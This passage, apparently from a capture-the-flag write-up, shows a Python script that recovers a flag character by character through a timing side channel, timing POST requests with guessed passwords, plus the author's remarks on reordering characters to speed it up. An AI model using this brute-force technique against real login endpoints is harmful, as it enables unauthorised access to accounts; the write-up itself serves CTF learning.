```python

	initial_time = aTime - bTime

	print(initial_time, ' sec')

	while 1 :
		for i in range(len(printable)):
			fake = flag
			fake += printable[i]

			before_time = time.perf_counter()

			r = requests.post(url, data = {'password':fake})

			after_time = time.perf_counter()
			exec_time = after_time - before_time

			print('exec_time : ', exec_time)
			print('initial_time : ', initial_time)

			next = fake + printable[i]
			next_bTime = time.perf_counter()
			r = requests.post(url, data = {'password':next})
			next_aTime = time.perf_counter()
			nextTime = next_aTime - next_bTime

			if (exec_time > initial_time + 0.3) and not(nextTime < exec_time - 0.2):
				print('hit')
				flag = fake
				print(flag)
				initial_time = exec_time
				break

		if '}' in flag:
			break


if __name__ == "__main__":
	main()
```

I realized later that I could have used some functions of the requests library but this way works so I'm happy with it. We made some changes with the *printable* stings to get the most important chars first so the execution time is lower, because this script brute-force the flag but is pretty long, we have to wait several seconds for each letter or number we tried.
But we eventually get the flag waiting for this script to make his job.

![NetworkedFlag]({{ "assets/2019-06-08/flagNetworked.png" | absolute_url}})
